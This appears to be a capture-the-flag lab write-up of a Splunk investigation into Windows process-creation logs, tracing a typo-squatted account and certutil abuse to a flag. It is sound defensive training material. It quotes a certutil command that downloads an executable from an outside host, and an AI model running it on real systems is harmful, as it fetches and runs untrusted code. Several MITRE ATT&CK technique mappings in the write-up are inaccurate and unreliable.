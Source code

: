 **Splunk Investigation: HR Department Compromise (Event ID 4688\)**

---

### **🔍 Summary**

An IDS flagged suspicious process execution within the HR department. Using Windows Event ID 4688 logs ingested into Splunk, we conducted an investigation to identify signs of malicious activity and potential compromise.

---

### **🔍 Key Findings**

* **Impersonation Account:** Detected a typo-squatted account, Amel1a, spoofing legitimate marketing user Amelia.  
* **Suspicious User Activity:** Chris.fort (HR) executed processes such as taskkill.exe and clip.exe, not typical for end-users.  
* **LOLBin Abuse:** Haroon used certutil.exe to download a file from controlc.com, indicating Living-off-the-Land Binary (LOLBin) abuse.  
* **MITRE ATT\&CK Mapping:** Attacker used credential impersonation (T1078.004), LOLBins (T1218.010), and C2 (T1105)

---

### **🛠️ Investigation Steps**

#### **1\. Baselining Logs**

* **Query:**  
  index=win\_eventlogs | stats count  
  → Returned **13,959 logs** (March 2022 only).  
* **Scoped HR User Activity:**  
  index=win\_eventlogs Username IN ("chris.fort", "haroon", "diana")  
  → Focussed on users from the HR department.

#### **2\. Identifying the Imposter Account**

* **Query:**  
  index=\* | stats count by Username  
  → Identified Amel1a, a spoofed version of Amelia. Typo-squatting confirmed.

**Efficiency Note:** stats count is preferred over table | dedup for better performance in large datasets.

#### **3\. Triaging HR User Activity**

##### **Chris.fort:**

* **Query:**  
  Username="Chris.fort" | table ProcessName, CommandLine | dedup ProcessName  
* Ran suspicious binaries:  
  * taskkill.exe, clip.exe (scripting and automation tools)   
  * backgroundTaskHost.exe (also used by Diana, but Chris had no productivity apps)  
* Lacked normal user behavior (e.g., browser, Office apps).  
* *Attempted Detection of Scheduled Task Binaries:*  
  * ProcessName IN ("schtasks.exe", "svchost.exe", "taskeng.exe")  
* No strong indicators here, pivoted back to broader process review.

##### **Diana:**

* While both Chris and Diana executed backgroundTaskHost.exe, only Diana ran typical productivity apps like chrome.exe and notepad.exe.  
* No red flags.

##### **Haroon:**

* Executed:  
  certutil.exe \-urlcache \-split \-f https://controlc.com/e4d11035 benign.exe  
  * Indicates malicious file download via **certutil.exe** (LOLBAS technique).  
  * While Certutil is a legitimate Windows tool, its use here \- along with haroon’s lack of other admin level activity \- strongly suggests its use is malicious.

#### **4\. Confirming Malicious Activity**

* File saved: benign.exe  
* Downloaded from: https://controlc.com/e4d11035  
* Flag found inside file: THM{KJ&\*H^B0}

**IOC Summary:** The download from controlc.com and presence of encoded payloads are consistent with command-and-control behavior observed during post-exploitation phases. 

---

### **💡 Lessons Learned**

#### **SOC Workflow**

* **Alerting Strategy:** Flag unusual process execution, especially known LOLBins like certutil.exe, particularly when run by non-admin users.  
* **Baseline Behavior:** Department-level activity baselining can reduce false positives.

#### **Tool Efficiency**

* stats count is more performant than table | dedup for retrieving unique values.  
* dedup remains useful in small-scope investigations, such as filtering usernames.

---

### **🧰 MITRE ATT\&CK Mappings**

| Tactic | Technique | Description |

| Execution | T1059.003 | certutil.exe used to download a payload |

| Persistence | T1078.004 | Spoofed account Amel1a for access |

| Defense Evasion | T1218.010 | LOLBin abuse with certutil.exe |

| Command and Control | T1105 | Connection to external C2 (controlc\[.\]com) |      

---

This investigation highlights a multi-phase attack starting with credential abuse, followed by LOLBin execution and external communication. Each phase was observable via effective Splunk queries and contextual log analysis.
